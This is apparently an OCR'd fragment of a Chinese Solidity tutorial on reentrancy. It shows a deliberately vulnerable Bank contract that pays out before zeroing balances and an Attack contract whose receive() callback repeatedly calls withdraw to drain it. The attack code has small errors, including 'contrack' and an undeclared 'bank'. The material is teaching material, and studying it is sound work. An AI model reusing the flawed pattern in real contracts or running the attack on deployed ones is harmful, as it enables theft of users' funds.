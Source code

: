 ```solidity
            winner = msg.sender;
        }
    }
    
    function claimReward() public {
        require(msg.sender == winner, "Not winner");
        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```



## 重入攻击

```solidity
contract Bank {
    mapping (address => uint256) public balanceOf;    // 余额mapping

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");
        // 存在重入攻击风险
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contrack Attack {
	// 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

	// 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }
}
```
